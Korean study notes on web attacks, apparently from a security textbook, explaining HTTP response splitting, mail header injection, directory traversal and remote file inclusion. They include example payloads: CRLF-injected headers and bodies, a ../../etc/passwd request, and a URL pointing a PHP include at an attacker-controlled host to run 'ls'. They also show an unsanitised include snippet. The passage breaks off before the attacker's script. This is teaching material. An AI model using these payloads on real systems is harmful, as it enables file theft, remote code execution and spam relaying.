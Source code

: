 #### HTTP 리스폰스 분할 공격
- 공격 순서는 같고 삽입하는 문자열에 `%0D%0A%0D%0A`와 같이 개행 문자를 두 개 나란히 보낸다.
- 개행 문자가 두 개 연속함으로써 HTTP 헤더와 바디를 나누는 빈 행을 만들어 내고 가짜 바디를 표시하는 공격
```
%0D%0A%0D%0A<HTML><HEAD><TITLE>이후 보려는 페이지의 내용 <!--
```
- 위 문자열을 HTTP 인젝션 가능한 곳에 보내면 원래 페이지 헤더와 바디는 주석으로 처리된다.
- 이 공격에 의해서 함정에 빠진 유저의 브라우저에 가짜 웹 페이지를 표시해서 개인 정보를 입력하게 하거나 XSS와 같은 효과를 얻을 수 있다.
- 또한, HTTP/1.1의 복수 리스폰스를 모아서 돌려보내는 기능을 악용해서 캐시 서버 등에 임의의 콘텐츠를 캐시하는 것도 가능 (캐시 오염)
  - 이 캐시 서버를 이용하는 유저는 공격을 받은 사이트를 열람하면 바뀌어진 웹 사이트를 계속해서 참조하게 된다.


### 11.2.5 메일 헤더 인젝션
- 메일 송신 기능에 공격자가 임의의 To 및 Subject 등의 메일 헤더를 부정하게 추가하는 공격
- 스팸 메일이나 바이러스 메일을 임의의 주소에 송신할 수 있다.

#### 메일 헤더 인젝션의 공격 사례
- 폼에 송신자의 메일 주소와 문의 내용을 입력하면 관리자에게 메일이 송신되는 기능
- 공격자는 메일 주소로 아래의 데이터를 리퀘스트로 보낸다.
  ```
  bob@hackr.jp%0D%0ABcc: user@example.com
  ```
- 문의 양식 폼의 웹 애플리케이션이 개행문자를 수신하면 본래는 지정할 수 없는 Bcc에 수신처를 추가할 수 있다.
- 또, 개행 문자를 두 개를 연속함으로써 메일의 본문을 변조해서 보낼 수 있다.
- 같은 방법으로 To나 Subject 등의 임의의 메일의 헤더 필드를 다시 쓰거나 본문에 첨부 파일을 추가하는 것도 가능


### 11.2.6 디렉토리 접근 공격
- 디렉토리 트래버설(Directory Traversal) : 비공개 디렉토리 파일에 대해서 부정하게 디랙토리 패스를 가로질러 액세스하는 공격
- 패스 트래버설이라고도 한다.
- 웹 애플리케이션 파일을 조작하는 처리에서 파일 이름을 외부에서 지정하는 처리 가 취약할 경우 임의의 파일이나 디렉토리에 액세스할 수 있다.
- 이로 인해 웹 서버 상의 파일이 잘못 열람되어 버리거나 변조 또는 삭제되어 버릴 수 있다.
- 출력값의 이스케이프의 문제로 볼 수도 있지만 임의의 파일 이름을 지정할 수 없도록 해야 한다.

##### 디렉토리 트래버설 공격 사례
- 파일을 읽고 표시하는 기능을 예로 디렉토리 트래버설을 설명한다.
- 이 기능은 아래와 같이 쿼리에 파일명을 지정하는 것으로 /www/log/ 이하에 지정된 파일을 읽어오는 기능이다.

```
http://example.com/read.php?log-0401.log
```
- 공격자는 아래와 같은 쿼리를 지정한 리퀘스트를 보낸다.
```
http://example.com/read.php?log=../../etc/passwd
```
- 만약 read.php가 디렉토리를 지정 받을 수 있다면 공개를 원치 않는 파일에 액세스할 수 있다.

### 11.2.7 리모트 파일 인클루션
- 리모트 파일 인클루션 : 스크립트의 일부를 다른 파일에서 읽어올 때 공격자가 지정한 외부 서버의 URL을 파일에서 읽게 함으로써 임의의 스크립트를 동작시키는 공격
- 주로 PHP에서 발생하는 취약성으로, PHP의 include와 require 설정에 따라서 외부 서버의 URL을 파일명으로 지정할 수 있는 기능
- 위험한 기능 때문에 PHP5.2.0 이후에서는 초기에 무효로 설정되어 있음.

#### 리모트 파일 인클루션의 공격 사례
- include로 스크립트에 다른 파일을 읽어들이는 기능
```
http://example.com/foo.pho?mod=news.php
```
- 이 스크립트의 소스 코드는 아래와 같이 되어 있다.
```shell
$modname = $_GET['mod'];
Include($modename);
```
- 공격자는 아래와 같은 URL을 쿼리에 지정한 리퀘스트를 보낸다.
```
http://example.com/foo.pho?mod=http://hackr.jp/cmd.php&cmd=ls
```
- 공격자는 외부 서버에 아래 스크립트를 준비해둔다.